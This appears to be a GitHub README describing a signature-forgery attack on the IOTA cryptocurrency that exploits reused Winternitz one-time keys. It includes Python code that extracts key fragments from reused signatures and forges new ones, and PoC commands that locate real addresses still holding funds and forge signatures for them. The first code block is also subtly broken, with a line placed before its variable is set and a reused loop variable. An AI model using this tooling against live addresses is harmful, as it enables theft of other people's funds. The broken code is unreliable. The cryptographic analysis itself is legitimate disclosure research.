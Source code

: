 # IOTAs Multisig Problem
IOTA is a post quantum secure crypto currency that gained some value in the past.
It is based on the Winternitz One Time Signature Scheme.
In contrast to RSA, DSA and ECDSA it is not based on computation in a group and cannot be broken by discrete log or factorization.
Instead it is based on hash functions and secure as long as the hash function is preimage resistant.

As usual in cryptocurrencies, the public key is used for reception of funds.
If the user wants to send some funds to a different address, she has to sign a transaction (bundle in case of IOTA)  using the private key that belongs to that public key.
As the Winternitz signature scheme is a one time signature scheme there are some problems in practice.
The main implication is that if a transaction is made once, using a secret key, this key is burned and should NOT be used anymore.
Therefore the reception address has to be changed if the user issues a transaction for that public key.
Any further transaction to that public key would cause multiple signatures, what could cause security issues.
It would be plausible if a user does not always notifies everyone, if she makes a transaction and a new public key has to be used.
Therefore multiple signatures could occur for a given address.

# Winternitz
To explain how Winternitz Sigatures works, lets first see how the signature for a single byte works (lets assume we have usual 8-bit byte for simplicity).
A random variable $x_i$ is chosen and stored as the secret key which in case of IOTA is derived from the secret seed.
Let $h$ be the hash function and $pk_i$ the public key:

$$ pk_i = h^{256}(x_i) = h(h(h( ... h(x_i)))) $$

To sign a byte $b_i$ we have to publish:

$$ sig_i = h^{256-b_i}(x_i) $$

And the sigature can be verified by testing if

$$ pk_i = h^{b_i}(sig_i) $$

This scheme can adopted for multi byte signatures by choosing a different $x_i$ for every byte $b_i$.
Of course this basic method is not secure at all, as an attacker can sign all bytes $b'_i < b_i$.
The way IOTA handles this problem is to normalize the bytestring $B = (b_0, b_1, ... b_n)$ by changing the first bytes such that:

$$ \sum_i b_i = 128 $$

As IOTA uses trytes and not bytes this is slightly different in that case.
If an attacker wants to sign a different bytestring, she has to choose a different bytestring $B' \not= B$.
As the total sum is constant there will be at least two bytes such that $b'_i < b_i$ and $b'_j > b_j$.
To sign this bytestring $B'$ using a different signature, the attacker has to compute a preimage for $b'_j$ what is not possible in practice.
Even though this assumption only holds if the public key is only used once.

IOTA uses trits (-1,0,1) and trytes (group of 3 trits, 9,A-Z) to represent hash values.
Depending on the security level of the wallet a signature a signature consists of 1-3 fragments.
Each signature fragment itself consists of 27 Winternitz signatures.
Let $ pk_{i,j} $ be the $i$-th Winternitz public key of fragment $j$.
The IOTA public key (address) for a security level of 2 is computed as:

$$ addr = h(h(pk_{0,0} || pk_{1,0} || ... || pk_{26,0}) || h(pk_{0,1} || pk_{1,1} || ... || pk_{26,1})) $$


# Analyzing the Tangle
There exists a repository [alon-e/iotaWayBack](https://github.com/alon-e/iotaWayBack.git) that can be used to download and analyze the tangle.
All transactions can then be stored in a SQL database, but the whole process takes several hours to complete.
The most relevant fields are:

    -signature_message_fragment: Signature fragment of a bundle. Usually split over two entries (depending on security level).
    -address: The address that issues the transaction.
    -bundle_hash: The hash of the signed bundle.

This database can then be used to search for addresses that signed multiple bundles.
I've analyzed transactions of 27682 addresses (24.10.2016-10.12.2017) and 1425 have submitted multiple signatures!

| Signatures | Found | Affected MIOTA
----------------------------------
| 2          | 1313  | 925.682126
| 3          | 73    | 0.0037
| 4          | 24    | 1.279097
| 5          | 8     | ~0
| 6          | 2     | ~0
| 7          | 2     | ~0

# Forging Signatures
Luckily IOTA ships with an open source python implementation.
The iota.crypto.signing.validate_signature_fragments(...) can be used to check signatures in the tangle.
The pseudo code looks as follows (taken from iota.lib.py/iota/crypto/signing.py):

```python
def get_sk_fragments(fragments, bundle_hash, public_key):
  normalized_hash = normalize(bundle_hash)

  for (i, fragment) in enumerate(fragments): # for all signature fragments
    normalized_chunk = normalized_hash[i % len(normalized_hash)]

    outer = []
    sk_fragments[i*27 + j][normalized_chunk[j]] = buffer
    for (j, hash_trytes) in enumerate(fragment.iter_chunks(Hash.LEN)): # for each tryte in fragment
      buffer = hash_trytes.as_trits()

      for i in range(13 + normalized_chunk[j]): # winternitz iteration
        buffer = h(buffer)
        sk_fragments[i*27 + j][normalized_chunk[j]-i-1] = buffer

      outer.append(buffer)
    checksum.append( h(outer))


  return  h(checksum) == public_key.as_trits()
```

Note that there is a small modification, the update of sk_fragments, which keeps track of the intermediate values of the Winternitz values.
Using the known values of two or more signatures, own signatures can be forged.
If a particular intermediate value is not known, an IndexError is thrown and the signature generation fails.

```python
def sign(forged_hash, sk_fragments, num_frags = 2):
    normalized_hash = normalize(forged_hash)

    fragments = []
    for i in range(num_frags):
      fragment = ""
      for j in range(len(normalized_hash[i])):
          x = normalized_hash[i][j]
          x = sk_fragments[str(i*27 + j)][str(x)]
          fragment += str(iota.TryteString.from_trits(x))

      fragments += [iota.TryteString(fragment)]

    return fragments
```

In the IOTA protocol the bundle hash is a hash value of a bundle, an actual money movement and can not be chosen arbitrarily.
Even though random values can be signed if only two signatures are known.
This can be achieved by slightly mutating a known signature.

```python
import random
def mutate(x, n=26):
    x = x.as_trits()
    for _ in range(n):
        i = random.randrange(len(x))
        x[i] = x[i] * random.randrange(-1,2)

    return TryteString.from_trits(x)
```

# Estimating Bit Security
To estimate the bit security I made one assumption, that the signed hash is purely random.
Of course as the hash is normalized this is not true in practice.
Let $b'_i$ be the forged and $b^j_i$ the legitimate signature and assume that the propability of finding a signature is:

$$ P = \prod_i P(b'_i > Max_j(b^j_i)) $$

I've written a small program to verify the estimation and they seem to be a little bit off.
The actual number of attempts strongly depends on the signatures, how many hash values are revealed.
A rough estimation is

| Num Sigs | Estimated Bit Security |
-------------------------------------
| 2        | ~50 bit                |
| 3        | ~30 bit                |


# PoC
The repository  [bolek42/iotaWayBack](https://github.com/bolek42/iotaWayBack.git) implements a basic PoC for the problems above.
After using traverse.py to download the tangle parse_and_store.py can be used to export the transactions to a sqlite database.
The whole process can take several hours to complete.

```
python find_multisig.py sqlalchemy_IRI.db
```

can be used to find IOTA addresses that issued multiple signatures and still contain IOTA.
The key fragments will be written in a json file in keys/[address].json.
For each found address the balance and estimated bit security is printed.


The following call can be used to create valid signatures for a mutated bundle hash

```
python sigforge.py address bundle_hash
```

To create signatures of random variables to show the feasibility of signature forging the bundle hash can be omitted.
Note that this implementation is single threaded and not tuned for performance.

```
python sigforge.py address
```
